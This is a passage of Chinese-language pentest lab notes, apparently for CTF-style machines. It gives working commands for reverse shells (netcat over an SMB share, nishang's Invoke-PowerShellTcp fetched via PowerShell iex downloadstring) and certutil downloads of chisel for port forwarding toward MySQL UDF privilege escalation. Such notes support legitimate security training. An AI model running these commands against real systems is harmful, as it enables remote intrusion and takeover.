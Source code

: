   kali 下载 nc 后开启 smb 共享，并监听

  ```bash
  wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe   
  python smbserver.py share .
  nc -lvnp 443
  ```

  靶机 webshell 触发

  ```
  \\10.10.16.3\share\nc64.exe -e cmd 10.10.16.3 443
  ```


- 用 `nishang` ，增加最后一行到 Invoke-PowerShellTcp.ps1 里

  ```
  Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.5 -Port 443
  ```

  开启简单 python http 服务，在webshell 里执行

  ```
  powershell iex(new-object net.webclient).downloadstring('http://10.10.16.5:1234/Invoke-PowerShellTcp.ps1')
  ```

  监听得到 shell



- hash-identifier 工具可识别 hash，可再配合 hashcat --help | grep xxx 来筛选利用



- windows 提升 shell 交互性

  用 `nishang` 的 `Invoke-PowerShellTcp.ps1` 里的，增加 以下内容

  <img src=".\图片\Snipaste_2023-08-31_16-31-56.png" alt="Snipaste_2023-08-31_16-31-56"  />

  再 kali 开启 web 服务，然后靶机访问触发

  <img src=".\图片\Snipaste_2023-08-31_16-30-22.png" alt="Snipaste_2023-08-31_16-30-22" style="zoom:80%;" />



- 端口转发  [Release v1.9.1 · jpillora/chisel · GitHub](https://github.com/jpillora/chisel/releases/tag/v1.9.1)

  这里的环境是 靶机里的 mysql 只能本地访问，我们把靶机的 3306 端口转发到 kali 的 3306 ，方便 udf 提权

  靶机下载

  ```
  certutil.exe -urlcache -split -f http://10.10.16.3:5555/chisel1.8.1.exe chisel1.8.1.exe
  ```
